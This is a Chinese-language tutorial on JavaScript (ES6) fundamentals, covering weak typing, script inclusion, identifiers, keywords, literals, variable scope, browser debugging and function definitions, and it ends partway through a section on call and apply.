# 3.JavaScript（ES6）


# JavaScript概述

## 什么是JavaScript？

JavaScript是一种高级的、解释型的编程语言，主要用于网页开发，使网页具有交互性。

- **客户端脚本语言**：主要在浏览器中执行。**无需编译**：代码以纯文本形式保存（`<font style="color:rgb(64, 64, 64);">.js</font>`），运行时由解释器逐行解析执行，而不需要像 C++ 那样先编译成二进制文件。
- **多范式语言**：支持面向对象、函数式编程风格
- **跨平台**：几乎所有现代浏览器都支持JavaScript

## JavaScript的发展历程

1. **诞生(1995年)**：由Netscape公司的Brendan Eich在10天内设计完成，最初名为 LiveScript，最终定为JavaScript。
2. **浏览器战争时代(1990年代末-2000年代初)**：微软的**JScript**与Netscape的JavaScript存在差异，导致兼容性问题。
3. **标准化(1997年)**：**ECMAScript**第一版标准发布(ECMA-262)，由ECMA国际组织标准化。
4. **AJAX革命(2005年)**：Google Maps和Gmail等应用展示了JavaScript的强大能力，推动了Web 2.0发展。
5. **jQuery时代(2006年)**：jQuery库简化了DOM操作和跨浏览器兼容性问题。
6. **ECMAScript 5(2009年)**：引入了严格模式、JSON支持等现代特性。
7. **Node.js出现(2009年)**：使JavaScript可以用于服务器端编程。
8. **ECMAScript 6/ES2015(2015年)**：重大更新，引入类、模块、箭头函数、Promise等现代特性。
9. **现代JavaScript(2015年至今)**：每年发布新标准(ES2016, ES2017等)，前端框架如React、Vue、Angular 等框架得到了蓬勃发展。

## JavaScript语言特点

1. **解释型语言**：不需要编译，由JavaScript引擎直接解释执行
2. **动态类型**：变量类型在运行时确定，可以随时改变
3. **基于原型的面向对象**：不是 **传统的 基于类的** 面向对象
4. **函数是一等公民**：函数可以作为参数传递，也可以作为返回值
5. **跨平台**：几乎所有现代浏览器和Node.js环境都支持
6. **灵活性**：支持多种编程范式（面向对象、函数式）
7. **丰富的生态系统**：npm上有超过100万个开源包可供使用
  1. npm 是 JavaScript 编程语言的**软件包管理器**
  2. 在这个网站上[https://www.npmjs.com/](https://www.npmjs.com/)，开发者可以搜索、下载和管理超过一百万种由全球开发者共享的可重用代码包（也就是您提到的“开源包”），从而极大地提高开发效率，避免“重复造轮子”。
8. **客户端和服务器端**：既可以在浏览器运行，也可以通过Node.js在服务器运行
9. **弱类型**：允许隐式类型转换。

## JavaScrtip的弱类型

**如何理解 JavaScript 的 "弱类型"（Weak Typing）？**

在编程语言中，"**弱类型**"（Weakly Typed）和 "**强类型**"（Strongly Typed）是描述 **变量类型检查严格程度** 的概念。JavaScript 是一种典型的弱类型语言，它的核心特点是：

### 变量没有固定的类型

**弱类型语言**：

```javascript
let x = 10;    // x 是数字
x = "hello";   // x 变成字符串（没有报错）
x = true;      // x 又变成布尔值
```

**强类型语言（如 Java、C++）** 会直接报错：

```java
int x = 10;   // x 必须是整数
x = "hello";  // 编译错误：类型不匹配
```

### 允许隐式类型转换

JavaScript 在运算时会尝试自动转换类型，而不是直接报错：

```javascript
console.log("10" - 5);      // 5（字符串 "10" 被转成数字）
console.log(1 == true);     // true（true 被转成 1）
console.log([] == false);   // true（[] 被转成 0，false 也被转成 0）
```

**强类型语言** 会直接拒绝这种运算（除非显式转换）。

### 宽松的类型检查

会进行类型转换后再比较：

```javascript
console.log(1 == "1");    // true（字符串 "1" 转成数字 1）
```

### 弱类型的优缺点

**优点**

1. **灵活性高**：变量可以随时改变类型，适合快速开发。
2. **代码更简洁**：不需要显式声明类型（如 `int x = 10;`）。
3. **适合小型脚本**：简单任务可以快速实现，无需考虑类型约束。

**缺点**

1. **容易隐藏 Bug**：

```javascript
function add(a, b) {
  return a + b;  // 如果 a 或 b 是字符串，可能变成拼接而不是加法！
}
console.log(add(10, 5));    // 15
console.log(add(10, "5"));  // "105"（可能不是预期结果）
```

1. **代码可读性降低**：别人可能不知道变量的类型是什么。
2. **难以维护**：大型项目可能因类型混乱导致难以调试。

### 如何避免弱类型的问题

1. **使用 `===` 代替 **`==`，避免隐式类型转换带来的意外：

```javascript
if (x === 10) { ... }  // 推荐
if (x == 10) { ... }   // 不推荐
```

1. **使用 TypeScript**（JavaScript 的超集，增加了**静态类型**检查）：

```typescript
let x: number = 10;  // 明确声明 x 必须是数字
x = "hello";         // TypeScript 会报错
```

1. **编写类型检查逻辑**：

```javascript
function add(a, b) {
  if (typeof a !== "number" || typeof b !== "number") {
    throw new Error("参数必须是数字！");
  }
  return a + b;
}
```

### **弱类型总结**

- **弱类型**：变量类型灵活，可以动态改变，允许隐式转换（如 JavaScript、PHP）。
- **强类型**：变量类型固定，运算前必须类型匹配（如 Java、C#、Python）。
- **静态类型 vs 动态类型**（**弱类型和强类型的另一个概念**）：
  - **静态类型**：变量类型在编译时确定（如 Java、TypeScript）。
  - **动态类型**：变量类型在运行时确定（如 JavaScript、Python）。

JavaScript 的弱类型让它 **灵活但容易出错**，而 TypeScript 的出现正是为了弥补这个缺陷，提供更强的类型安全。

## JavaScript 的三大组成部分

JavaScript = ECMAScript(核心) + DOM(文档操作) + BOM(浏览器交互)

### ECMAScript (核心语法)

- **定义语言基础**：变量、数据类型、操作符、流程控制、函数、面向对象等
- **标准化版本**：由ECMA国际组织制定标准(如ES5、ES6/ES2015等)
- **跨平台基础**：所有JavaScript引擎实现的基础规范

### DOM (文档对象模型)

- **网页操作接口**：Document Object Model，提供访问和操作HTML/XML文档的API
- **树形结构**：将文档表示为节点树，可动态修改内容、结构和样式
- **主要功能**：
  - 查询和修改元素
  - 添加/删除节点
  - 处理事件
  - 修改CSS样式
- DOM 的顶级对象，内置了，叫做：document

### BOM (浏览器对象模型)

- **浏览器交互接口**：Browser Object Model，提供与浏览器窗口交互的API
- **非标准化**：各浏览器实现有差异，但主要对象基本一致
- **核心对象**：
  - `window`：浏览器窗口的顶级对象
  - `navigator`：浏览器信息
  - `location`：URL相关操作
  - `history`：浏览历史
  - `screen`：屏幕信息
  - `document`：实际上是DOM的入口


# HTML中引入JavaScript

在HTML中引入JavaScript代码主要有以下几种方式：

## HTML事件属性（不推荐）

直接在HTML元素的事件属性中写JS代码（已过时）：

```html
<button onclick="alert('按钮被点击')">点击</button>
```

- **缺点**：混合了结构与行为，难以维护。

**知识点：**

1. **JavaScript 是一种基于事件驱动（Event-Driven）的编程语言。**
2. `**<font style="color:#DF2A3F;">click</font>**`**是事件，**`**<font style="color:#DF2A3F;">onclick</font>**`**是事件句柄。事件句柄可作为HTML标签的属性形式存在。**
3. **在事件句柄中注册回调函数。例如**`**<font style="color:#DF2A3F;">onclick="sayHello()"</font>**`**，其中**`**<font style="color:#DF2A3F;">sayHello()</font>**`**就是回调函数。**
4. **原理：页面加载的时候，当加载到该HTML标签时，完成回调函数与事件的绑定（注册）。后续当用户点击该按钮时，发生**`**<font style="color:#DF2A3F;">click</font>**`**事件，浏览器负责调用回调函数。**
5. **弹窗代码：**`**<font style="color:#DF2A3F;">window.alert('Hello JavaScript')</font>**`**，其中**`**<font style="color:#DF2A3F;">window</font>**`**是JS内置对象，代表当前浏览器窗口，**`**<font style="color:#DF2A3F;">alert</font>**`**是**`**<font style="color:#DF2A3F;">window</font>**`**对象的方法，功能是弹出警告框。**

## 内联方式（Inline Script）

直接在HTML文件中使用`<script>`标签包裹JavaScript代码：

```html
<script>
  console.log('内联JavaScript代码');
</script>
```

- **位置**：可以放在`<head>`或`<body>`中。
- **特点**：代码直接嵌入HTML，适合少量逻辑。

**关于快速生成打印语句：**

`console.log()`是向控制台上打印输出，在 VS Code 中如何快速生成该语句呢？可进行这样的配置：





打开 `javascript.json`文件后，添加如下的配置，然后保存文件，随后在 js 文件中输入 cl 即可快速生成 `console.log();` 语句：

```json
{
        "Print to console": {
                "prefix": "cl",
                "body": [
                        "console.log($1);"
                ],
                "description": "Log output to console"
        }
}
```

另外以后也会学习 TypeScript，以后也需要在 `.ts`文件中快速生成打印语句，因此可以将以上的配置在 `typescript.json`文件中进行重复配置。

## 外部引入（External Script）

通过`<script>`标签的`src`属性引入外部JS文件：

```html
<script src="script.js"></script>
```

- **位置**：通常放在`<body>`末尾（避免阻塞渲染），也可在`<head>`中配合`defer`或`async`使用。
- **特点**：
  - **模块化**：代码可复用，便于维护。
  - **缓存优势**：浏览器会缓存外部JS文件。

## 动态加载（Dynamic Script Loading）

通过JavaScript动态创建`<script>`标签：

```javascript
const script = document.createElement('script');
script.src = 'script.js';
document.body.appendChild(script);
```

- **用途**：按需加载脚本，提升性能。

## defer与async属性

`defer`**与**`async`**属性**（仅限外部脚本）

### defer延迟执行

```html
<script src="script1.js" defer></script>
<script src="script2.js" defer></script>
```

defer 的执行时机：

DOM 构建完成 → (开始执行 defer 脚本) → (所有 defer 脚本执行完毕) → DOMContentLoaded 事件触发→ 浏览器继续加载页面中引用的外部资源，如图片、视频等 → load 事件发生。

### async异步加载

```html
<script src="script1.js" async></script>
<script src="script2.js" async></script>
```

- ✅ `**<font style="color:rgb(64, 64, 64);">async</font>**`** 脚本**：下载完js文件就执行，**不保证DOM是否就绪**，适合独立任务。
- ✅ 什么是异步加载：不保证先执行`<font style="color:rgb(64, 64, 64);">script1.js</font>`再执行`<font style="color:rgb(64, 64, 64);">script2.js</font>`。谁先下载完，谁先执行。


# JavaScript标识符

`JavaScript`的学习可以参考官方文档：[**MDN Web Docs**](https://developer.mozilla.org/zh-CN/)

## 什么是标识符

**标识符** 是用于命名变量、函数、类、属性等的字符序列。例如：

```javascript
let userName;  // "userName" 是标识符
function sayHello() {}  // "sayHello" 是标识符
class Person {}  // "Person" 是标识符
```

## 命名规则

标识符的命名必须符合以下 **硬性规则**，否则会导致语法错误：

1. 由数字、字母（任何一个国家的文字都支持）、下划线、美元符号组成。不能含有其它符号。
2. 不能以数字开始。
3. 关键字不能做标识符
4. 严格区分大小写

## 命名规范

变量 & 函数：小驼峰命名法（camelCase）

```javascript
let userName = "Alice";  // 变量
function getUserInfo() {}  // 函数
```

常量：全大写 + 下划线（UPPER_CASE）

```javascript
const MAX_COUNT = 100;
const API_KEY = "abc123";
```

类 & 构造函数：大驼峰命名法（PascalCase）

```javascript
class UserProfile {}
function Car(model) {  // 构造函数
  this.model = model;
}
```

私有成员：下划线前缀

```javascript
class Person {
  constructor(name) {
    this._name = name;  // 约定为私有变量
  }
  _privateMethod() {}  // 约定为私有方法
}
```

布尔变量：以 is/has/can 开头

```javascript
let isLoggedIn = true;
let hasPermission = false;
let canEdit = true;
```

# JavaScript关键字


**关键字** 是 JavaScript 语言中具有特殊含义的保留字，它们用于控制程序结构（如 `if`, `for`）、定义变量（如 `let`, `const`）、声明函数（如 `function`）等。

**关键字不能用作变量名、函数名或标识符**，否则会导致语法错误。

## 关键字列表

以下是 JavaScript 中的 **关键字**（按功能分类）：

**变量声明**

| **关键字** | **说明** |
| --- | --- |
| `var` | 声明变量（ES5，存在变量提升） |
| `let` | 声明块级作用域变量（ES6） |
| `const` | 声明常量（ES6，不可重新赋值） |

**流程控制**

| **关键字** | **说明** |
| --- | --- |
| `if` | 条件判断 |
| `else` | 否则分支 |
| `switch` | 多条件分支 |
| `case` | `switch` 的分支选项 |
| `default` | `switch` 的默认分支 |
| `break` | 跳出循环或 `switch` |
| `continue` | 跳过当前循环，进入下一次 |

**循环**

| **关键字** | **说明** |
| --- | --- |
| `for` | `for` 循环 |
| `while` | `while` 循环 |
| `do` | `do...while` 循环 |
| `in` | 遍历对象属性或数组索引 |
| `of` | 遍历可迭代对象（如数组） |

**函数与类**

| **关键字** | **说明** |
| --- | --- |
| `function` | 声明函数 |
| `return` | 返回函数结果 |
| `class` | 定义类（ES6） |
| `extends` | 类继承（ES6） |
| `super` | 调用父类构造函数或方法（ES6） |

**异常处理**

| **关键字** | **说明** |
| --- | --- |
| `try` | 尝试执行代码 |
| `catch` | 捕获异常 |
| `finally` | 无论是否异常都会执行 |
| `throw` | 抛出异常 |

**其他**

| **关键字** | **说明** |
| --- | --- |
| `this` | 指向当前对象 |
| `new` | 创建对象实例 |
| `typeof` | 返回变量类型 |
| `instanceof` | 检查对象是否属于某个类 |
| `void` | 使表达式返回 `undefined` |
| `delete` | 删除对象属性 |
| `yield` | 生成器函数（ES6） |
| `async/await` | 等待异步操作完成（ES8） |
| `debugger` | 调试断点 |
| `import` | 模块导入 |
| `export` | 模块导出 |

## 保留字

除了关键字，JavaScript 还有一些 **保留字**（未来可能成为关键字），同样 **不能用作标识符**：

`enum``implements``interface``package``private``protected``public``static`

# JavaScript字面量


**字面量（Literals）** 是直接在代码中表示固定值的语法形式，它们不需要计算或解析，直接代表其字面意义。**JS中都有哪些类型的字面量呢？**

## 数字字面量

表示数值，可以是整数、浮点数、科学计数法等：

```javascript
42          // 整数
3.14        // 浮点数
0xFF        // 十六进制（255）
0b1010      // 二进制（10）
1.5e3       // 科学计数法（1500）
```

## 字符串字面量

用单引号 `' '`、双引号 `" "` 或模板字符串  表示：

```javascript
"Hello"     // 双引号字符串
'World'     // 单引号字符串
`ES6`       // 模板字符串（支持插值：例如`username=${username}`）
```

## 布尔字面量

只有 `true` 和 `false` 两个值：

```javascript
let isDone = true;
let isActive = false;
```

## 数组字面量

用 `[ ]` 表示，元素之间用逗号分隔：

```javascript
[1, 2, 3]                     // 数字数组
["apple", "banana", "orange"]  // 字符串数组
[1, "two", true, [4, 5]]      // 混合类型数组
```

## 类数组字面量（类似数组）

```javascript
const arrayLike = {0:'id', 1:'name', length:2};
```

类数组对象的判定条件

- 数字键索引：属性名为从 0 开始的连续数字（0, 1, 2, ...）。
- length 属性：明确表示“元素”数量，且值为非负整数。
- 不具备数组方法：如 push、forEach 等（除非手动绑定）。

访问的语法：`arrayLike[0]`结果是`id`

## 对象字面量

用 `{ }` 表示，键值对形式：

```javascript
const obj1 = { name: "Alice", age: 25 }      // 简单对象

const obj2 = { 
  id: 1,
  // 对象中的这种方法不能当做构造函数使用。
  // 这里的this指向当前对象
  getName() { return this.name; }  // 方法：有两种定义方式，这是第1种。（ES6推荐这种方式。）
}

const obj3 = {
  id: 1,
  // 对象中的这种方法不能当做构造函数使用。
  // 这里的this指向当前对象
  getName: function(){ return this.name; } // 方法：有两种定义方式，这是第2种。
}

// 如果需访问 this（指向对象本身），不能用箭头函数
// ❌ 错误：箭头函数的 this 指向外层作用域
const obj4 = {
  id: 1,
  // 这里的this不会指向当前对象，指向外层作用域。
  getName: () => this.name // 不会指向 obj4
};
```

注意：对象的属性访问有两种方式，代码如下：

```javascript
const person = {
  name: 'jack',
  age: 20
}
// 第一种方式
console.log(person.name);
// 第二种方式
console.log(person['age']);
```

面试题：在JavaScript中`[]`和`{}`的区别？

1. `[]`是数组对象
2. `{}`是javascript对象

## 正则表达式字面量

用 `/ /` 包裹的正则表达式：

```javascript
/\d+/g          // 匹配数字
/^[A-Za-z]+$/   // 匹配字母
```

## null 和 undefined 字面量

- `null` 表示空值（人为赋值）
- `undefined` 表示未定义（默认值）

```javascript
let empty = null;
let notDefined = undefined;
```

## BigInt 字面量（ES2020）

在数字后加 `n` 表示大整数：

```javascript
9007199254740992n  // BigInt 类型
```

## Symbol 字面量（ES6）

通过 `Symbol()` 创建唯一值：

```javascript
const sym = Symbol("description");
```

后面课程详细讲。

# JavaScript变量


## 什么是变量

**变量**是编程中用于存储数据的命名容器。可以将变量想象成一个贴有标签的盒子：

- **变量名**就是盒子上的标签
- **变量值**就是盒子里存放的内容

**特点**：

- 变量必须先声明后使用
- 变量可以存储不同类型的数据（数字、字符串、布尔值等）
- 变量的值可以改变（`let`声明的变量）
- 通过变量名来访问和操作数据

**示例**：

```javascript
let message = "Hello"; // 声明一个变量message，存储字符串"Hello"
console.log(message); // 使用变量，输出: Hello
message = "World";    // 修改变量的值
console.log(message); // 输出: World
```

## 定义变量的三种方式

JavaScript有三种声明变量的方式：

| **方式** | **特点** | **示例** |
| --- | --- | --- |
| `var` | 传统方式，函数作用域，存在变量提升（**现代开发中已不建议使用**） | `var x = 10;` |
| `let` | 块级作用域，不允许重复声明，不存在变量提升（ES6新增） | `let y = 20;` |
| `const` | 块级作用域，声明时必须初始化且不能重新赋值（ES6新增） | `const PI = 3.14159;` |

### var

```javascript
var age = 25; // 声明并初始化
var name;     // 声明但不初始化（默认值undefined）
name = "张三"; // 后续赋值
```

特点：

- 作用域为函数作用域或全局作用域（**直接写到 script 标签中会自动挂载到 window 对象上**）
- 存在变量提升（可以在声明前访问，值为undefined）
- 可以重复声明

函数作用域可以这样理解：

```html
<script>
  function test(){
    if(true){
      var a = 10;
    }
    // 这是允许的。
    console.log(a);
  }
  test();
</script>
```

全局的 var 变量会挂载到 window 对象上，可以测试一下：

```html
<script>
    var a = 100;
    console.log(window.a); // 100

    let b = 200;
    console.log(window.b); // undefined
</script>
```

### let

```javascript
let count = 0; // 必须使用let声明
count = 1;     // 可以重新赋值
// let count = 2; // 错误，不能重复声明
```

特点：

- 块级作用域：`{}`内有效（**直接写到 script 标签中不会自动挂载到 window 对象上**）
- 不存在变量提升（必须先声明后使用）
- 不能重复声明

块级作用域可以这样理解：

```html
<script>
  function test(){
    if(true){
      let a = 10;
    }
    // 这里是报错的。
    console.log(a);
  }
  test();
</script>
```

### const

```javascript
const MAX_SIZE = 100; // 声明时必须初始化
// MAX_SIZE = 200;    // 错误，不能重新赋值
const user = { name: "John" };
user.name = "Mike";   // 允许，因为对象内部属性可以修改
```

特点：

- 也是块级作用域：`{}`内有效
- 必须声明时初始化
- 不能重新赋值
- 对于对象/数组，内容可以修改（不能修改的是绑定关系）

## 变量的赋值和使用

### 基本赋值

```javascript
let a = 10;       // 数字
let b = "文本";    // 字符串
let c = true;      // 布尔值
let d = null;      // 空值
```

### 多变量声明

```javascript
let x = 1, y = 2, z = 3; // 一行声明多个变量
```

### 变量使用

```javascript
let price = 100;
let quantity = 5;
let total = price * quantity; // 使用变量进行计算
console.log(total); // 输出: 500
```

### 变量重新赋值

```javascript
let score = 80;
score = 90; // 合法（使用let声明）
score = score + 10; // 现在score是100
```

### 变量交换（ES6方式）

**ES6的解构赋值**：（以下是**数组解构**语法）

```javascript
let first = "A", second = "B";
[first, second] = [second, first]; // 交换变量值
console.log(first, second); // 输出: B A
```

**ES6（ECMAScript 2015）中的解构赋值（Destructuring Assignment）**，它的作用是从数组中快速提取值并赋值给变量，属于语法糖：

```javascript
const [a, b] = [200, 300];
```

**对象解构语法是用大括号**：`{}`

```javascript
let user = {
    username: 'jack',
    age: 20
}
let {username, age} = user;
console.log(username, age);
```

## 变量的作用域

变量的作用域指变量可被访问的范围，JavaScript中变量有三种作用域：

### 全局作用域

在函数外部声明的变量

```javascript
let globalVar = "我是全局变量"; // 全局变量
var globalVar2 = "我也是全局变量，我会自动挂载到window对象上";

function test() {
  console.log(globalVar); // 可以访问
  console.log(globalVar2); // 可以访问
  console.log(window.globalVar2); // 可以访问
}
test();
```

### 函数作用域

使用`var`声明的变量在函数内部有效

```javascript
function myFunction() {
  if(true){
    // 函数作用域：虽然在if的分支大括号中，但是整个函数中都可以用。
    var localVar = "局部变量";
  }
  console.log(localVar); // 可以访问
}
// console.log(localVar); // 错误，外部无法访问
```

### 块级作用域

使用`let`和`const`声明的变量在代码块`{}`内有效。`var`不能声明块级作用域。

```javascript
if (true) {
  let blockVar = "块级变量";
  console.log(blockVar); // 可以访问
}
// console.log(blockVar); // 错误，外部无法访问
```

### var无法定义块级作用域

| **声明方式** | **函数作用域** | **块级作用域** | **全局作用域** |
| --- | --- | --- | --- |
| `var` | ✅ | ❌ | ✅ |
| `let` | ✅ | ✅ | ✅ |
| `const` | ✅ | ✅ | ✅ |

### 作用域链规则

- 内层作用域可以访问外层作用域的变量
- 外层作用域不能访问内层作用域的变量
- 相同作用域中不能重复声明`let`/`const`变量

**示例**：

```javascript
let outer = "外部";

function scopeTest() {
  let inner = "内部";
  console.log(outer); // 可以访问外部变量
}

scopeTest();
// console.log(inner); // 错误，无法访问函数内部变量
```

### 就近原则

当内层作用域声明了与外层同名的变量时：

```javascript
let value = "全局";

function printValue() {
  let value = "局部";
  console.log(value); // 输出"局部"
}

printValue();
console.log(value); // 输出"全局"
```

### 隐式全局变量

在 JavaScript 中，如果在函数体内定义变量时没有使用 `<font style="color:rgb(64, 64, 64);">var</font>`、`<font style="color:rgb(64, 64, 64);">let</font>` 或 `<font style="color:rgb(64, 64, 64);">const</font>` 关键字，那么这个变量会被隐式创建为 **全局变量**，即使它是在函数内部定义的。

```html
<script>
  function greet(){
    // 隐式全局变量
    username = "jackson";
  }
</script>
```

在 **严格模式（**`**<font style="color:rgb(64, 64, 64);">'use strict'</font>**`**）** 下，直接给未声明的变量赋值会抛出 `<font style="color:rgb(64, 64, 64);">ReferenceError</font>`

```html
<script>
  // 使用严格模式
  'use strict'
  
  function greet(){
    // 隐式全局变量
    username = "jackson";
  }

  greet();
</script>
```

JavaScript 在非严格模式下允许隐式创建全局变量，这是语言早期设计的一个缺陷。严格模式和现代声明关键字（`<font style="color:rgb(64, 64, 64);">let</font>`/`<font style="color:rgb(64, 64, 64);">const</font>`）的引入，正是为了纠正这种行为，使代码更可预测和可维护。

# JavaScript 程序调试


以下所讲内容是基于 Chrome 浏览器的。

## 控制台上执行临时代码

有这样一段 JS 代码：

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Console上执行临时的JS代码</title>
</head>
<body>
  <script>
    let username = 'jackson';
  </script>
</body>
</html>
```

F12 打开调试面板，点击 `Console`控制台面板，直接在控制台上输入 JS 代码可以临时执行一段 JS 代码，如下：



当然，如果 JS 代码执行过程中出现了错误，也可以在 `Console`上查看具体的错误信息。

## 给 JS 代码添加断点

要对 JS 的具体执行过程进行调试，可以给程序添加断点：F12 打开调试面板，选择 `Sources`面板。

有这样一段代码：

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Sources面板上添加断点调试JS</title>
</head>
<body>
  <script>
    let username = 'jackson';
    username = username.substring(4);
    console.log(`username=${username}`);
  </script>
</body>
</html>
```

添加断点调试，如下：



## debugger 关键字

也可以在 JS 源码中添加 `debugger`语句，当程序执行到 debugger 语句时自动进入调试模式。



# JavaScript中的函数


## 什么是函数

函数是 JavaScript 中的基本构建块之一，它是一段可重复使用的代码块，可以接受输入（参数），执行特定任务，并返回结果。

## 函数的作用

1. **代码复用**：避免重复编写相同代码
2. **模块化**：将复杂问题分解为更小、更易管理的部分
3. **抽象**：隐藏实现细节，只暴露必要接口
4. **组织代码**：使代码更易读、易维护

## 定义函数

### 函数声明

```javascript
function functionName(parameters) {
  // 函数体
  return result; // 可选
}
```

示例：

```javascript
function greet(name) {
  return `Hello, ${name}!`;
}
```

### 函数表达式

```javascript
const functionName = function(parameters) {
  // 函数体
};
```

示例 1：函数表达式之 匿名函数

```javascript
const greet = function(name) {
  return `Hello, ${name}!`;
};
```

示例 2：函数表达式之 命名函数

```javascript
const greet = function myGreet(name){
  return `Hello,${name}`;
}
// myGreet 名字其实意义不大，不能在外部调用。真正暴露给外部的仍然是greet变量。除非你需要在myGreet函数中进行递归调用时才有用。因为递归调用需要函数名。
```

无论是匿名函数还是命名函数，获取函数名的语法都是：`**变量名.name**`

### 箭头函数 (ES6+)

```javascript
const functionName = (parameters) => {
  // 函数体
};
```

示例：

```javascript
const greet = (name) => {
  return `Hello, ${name}!`;
};

// 简写形式（当只有一条返回语句时）
const greet = name => `Hello, ${name}!`;
```

箭头函数只能是匿名函数，它的名字也可以通过`**变量名.name**`来获取。

### 三种函数的区别

| **特性** | **函数声明** | **函数表达式** | **箭头函数** |
| --- | --- | --- | --- |
| **语法** | `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">function fn() { ... }</font>**` | `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">const fn = function() { ... }</font>**` | `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">const fn = () => { ... }</font>**` |
| **提升** | 整个函数提升，可先调用后定义 | 需先定义后调用 | 需先定义后调用 |
| `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">this</font>**`**绑定** | 动态绑定（由调用者决定） | 动态绑定（由调用者决定） | 静态绑定（继承外层作用域的 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">this</font>**`） |
| **构造函数** | 可当做构造函数来调用（`**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">new fn()</font>**`） | 可当做构造函数来调用（`**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">new fn()</font>**`） | 不可当做构造函数来调用（`**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">new</font>**`会报错） |
| `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">arguments</font>**`**对象** | 可用 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">arguments</font>**`访问参数 arguments[0]、arguments[1] 语法。 | 可用 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">arguments</font>**`访问参数 | 无 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">arguments</font>**` |
| **隐式返回** | 如果要返回数据，必须显式编写 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">return</font>**` | 如果要返回数据，必须显式编写 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">return</font>**` | 函数体中只有一条 return 语句时，return 可以省略 |
| **函数名称** | 有函数名 | 可以匿名也可以命名，匿名时名字默认继承变量名 | 匿名，名字默认继承变量名 |
| **重新赋值** | 可重新赋值 | 可重新赋值，const 修饰后不可重新赋值 | 可重新赋值，const 修饰后不可重新赋值 |
| **典型场景** | 全局/模块级函数、递归函数 | 动态赋值、回调函数、支持 IIFE 语法（**IIFE** 是 **Immediately Invoked Function Expression** 的缩写，中文意思是 **立即调用函数表达式**。） | 回调函数、可以解决回调函数中 this 丢失的问题、也支持 IIFE 语法。 |

## 调用函数

定义函数后，可以通过函数名加括号来调用它：

### 直接调用

```javascript
greet('Alice');
```

### 作为方法调用

1. 第一种写法：使用传统的函数表达式

```javascript
const obj = {
  sayHello: function() { 
    console.log('Hello'); 
  }
};

obj.sayHello();
```

1. 第二种写法：使用ES6引入的方法简写语法（method shorthand）：

```javascript
const obj = {
  sayHello() { 
    console.log('Hello'); 
  }
};

obj.sayHello();
```

以上代码本质上完全相同，第二种写法就是简写方式。

### 作为构造函数调用（使用 `new`）

```javascript
function Person(name) {
  this.name = name;
}
const person = new Person('Bob');
```

使用`new`调用构造函数，在堆内存中会创建对象，并且返回对象的内存地址。

### 函数对象上的 prototype

任何一个函数对象上都有 prototype 属性，通过这个属性获取的对象叫做：函数对象的原型对象。

```javascript
// User是一个函数，我们称为函数对象。
function User(){}

// 只有函数对象上才有prototype属性
// 通过以下代码可以获取函数对象的原型对象。
//User.prototype

// 放在原型对象上的属性/方法，是所有实例共享的，任何一个实例都可以访问这些共享的属性和方法。
let obj = new User();

// 在原型对象上添加一个方法，所有的实例就都有了这个方法。
User.prototype.doSome = function(){
  console.log("do some...");
};
obj.doSome();

// 在原型对象上添加一个属性，所有的实例就都有了这个属性。
User.prototype.username = "jack";
console.log(obj.username);

// 对于普通对象（非函数对象）来说都有一个私有的__proto__属性。
// 普通对象通过该属性可以获取该普通对象对应的函数对象的原型对象。
// 换句话说：以下代码输出true
console.log(User.prototype === obj.__proto__);

// 也就是说通过某个普通对象也可以给所有对象扩展方法或属性。
obj.__proto__.doOther = function () {
  console.log("do other");
};
obj.doOther();
```

### 使用 call/apply 调用

```javascript
greet.call(null, 'Charlie');
greet.apply(null, ['Charlie']);
```

`call` 和 `apply` 是用于显式绑定函数执行时的 `this` 值（即函数内部的 `this` 指向）的方法。

#### 为什么需要 `call` 和 `apply`？

1. **显式指定 **`this`** 的值**
